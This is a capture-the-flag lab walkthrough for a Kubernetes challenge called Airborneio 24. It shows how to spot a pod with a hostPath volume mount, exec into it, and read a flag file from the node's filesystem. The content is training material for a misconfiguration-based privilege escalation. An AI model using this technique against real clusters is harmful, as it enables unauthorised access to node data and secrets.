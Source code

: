 # Airborneio 24 Challenge

The *Airborneio 24* challenge requires you to find a flag located on the Kubernetes node's file system. Without direct access to the file system and a view only Kubernetes role, you will need to find a misconfiguration in an existing resource to gain access to the flag.

## Host Path Mount Misconfiguration

Pods often need to store data on the file system as processes execute. Kubernetes supports many different volume types. The Kubernetes [hostPath](https://kubernetes.io/docs/concepts/storage/volumes/#hostpath) volume mount provides persisted storage for a pod using a directory on the host node's filesystem. Often the most simple way to gain persisted storage, the [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} can be a powerful attack vector for privilege escalation.

Review the pod configurations in the `hth` namespace. Which pod is using a **hostPath** mount configuration? What directory on the host node's filesystem is being mounted into the pod?

??? tip "Hint"

    - List the pods running in the `hth` namespace. Make a note of the *api* pod's name, as you will need this in the next step.

        ```bash
        kubectl get pods -n hth
        ```

        !!! abstract "Expected Output"
            ```bash
            NAME            READY   STATUS    RESTARTS   AGE
            api-randomid    1/1     Running   0          2d21h
            ui-randomid     1/1     Running   0          2d21h
            ```

    - Describe the configuration for each pod using the `kubectl describe pod` command. Search the output for the pod that has a **Volume** with a **Type** set to **HostPath**. The volume's **Path** is pointing to a directory on the node's file system that will be accessible from inside a pod running in the cluster.

        ```bash
        kubectl describe pod -n hth ENTER_API_POD_NAME 
        ```

        !!! abstract "Expected Output"
            ```yaml hl_lines="2-4"
            Volumes:
              hth:
                Type:          HostPath (bare host directory volume)
                Path:          ?????
                HostPathType:  DirectoryOrCreate
            ```

    - The same pod will have a **Mount** referencing the *hth* volume. The mount will specify  that specifies the directory inside the container.

        !!! abstract "Expected Output"
            ```yaml hl_lines="2"
            Mounts:
              ????? from hth (rw)
              /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-rgfww (ro)
            ```

??? success "Answer"

    - With this knowledge, you have discovered a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} attack path to get from a compromised **api** pod to the node's filesystem.

        ```
        Pod: api-randomid
        Pod Mount Location: /mnt/hth/
        Host Path Location: /opt/data/hth
        ```

## Host Path Mount Privilege Escalation

Given a scenario where the pod is compromised, an attacker can use the **hostPath** volume mount to gain unauthorized access data on the Kubernetes node. Use the `kubectl exec` command to obtain a shell on the compromised pod and exfiltrate the `airborneio-24` flag from the Kubernetes node's filesystem.

??? tip "Hint"

    - Use the `kubectl exec` command to obtain a shell on the compromised pod.

        ```bash
        kubectl exec --stdin --tty -n hth ENTER_API_POD_NAME -- /bin/bash
        ```


        !!! abstract "Expected Output"
            ```bash
            root@api-randomid:/#
            ```

    - Once inside the pod, list the contents of the mount location.

        ```bash
        ls -l ?????
        ```

        !!! abstract "Expected Output"
            ```bash
            total 0
            drwxr-xr-x. 2 root root 68 Nov  8 23:03 api
            drwxr-xr-x. 2 root root 27 Nov  8 23:03 secrets
            ```

    - List the contents of the directory to find the `airborneio-24` flag.

        ```bash
        ls -l ?????/secrets/
        ```

        !!! abstract "Expected Output"
            ```bash
            -rw-r--r--. 1 root root 42 Nov  8 23:03 airborneio-24
            ```

    - Use the `cat` command to read the contents of the `airborneio-24` file and retrieve the flag.

    - Run the following command to exit the shell and return to your local machine.

        ```bash
        exit
        ```

??? success "Answer"

    - The `airborneio-24` flag is located in the `/mnt/hth/secrets` directory on the container's filesystem.
        
        ```bash
        cat /mnt/hth/secrets/airborneio-24
        ```

        !!! abstract "Expected Output"
            ```bash
            hth{?????}
            ```

## Next Challenge

Congratulations! You have identified a [host path mount](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/){: target="_blank" rel="noopener"} misconfiguration and exfiltrated the **Airborneio 24** flag from the Kubernetes node's file system.

Continue to the [Shadowhawk Challenge](./shadowhawk.md) to learn how Kubernetes pods can inherit permissions from the underlying Kubernetes node.
